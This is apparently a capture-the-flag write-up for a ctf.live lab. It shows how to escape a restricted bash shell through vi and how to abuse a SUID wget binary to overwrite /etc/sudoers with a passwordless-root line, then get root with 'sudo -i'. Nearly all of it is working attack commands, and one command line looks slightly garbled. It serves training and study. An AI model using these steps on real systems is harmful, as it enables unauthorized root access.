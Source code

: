 ```yaml
---
layout: single
title: "PrivEsc abusing WGET SUID"
date: 2020-04-04 00:22:00 -0000
categories: ctflive, privesc
permalink: /ctflive/wgetsuid
tags: [privesc, wget, SUID]

---
```


https://www.ctf.live/challengedetails?cid=21
##### escape restricted shell
`fesal@rbash_attackdefense:~$`
~~~~
:set shell=/bin/bash
:shell
export PATH=.bin:/usr/bin/
echo $PATH
~~~~
##### use wget SUID to transfer file to /etc/sudoers
~~~~
cd /tmp
vi sudoers
:i[enter] - to edit file
fesal ALL=(ALL) NOPASSWD:ALL
:wq - - to save exit file
~~~~
~~~~
python -m SimpleHTTPServer 8009 & -O /etc/sudoers ~~[why need '&' - to use terminal and simpleServer works in bg]~~
export URL=http://127.0.0.1:8009/sudoers
export LFILE=/etc/sudoers
wget $URL -O $LFILE
sudo -i 
~~~~
`root@rbash_attackdefense:~$`
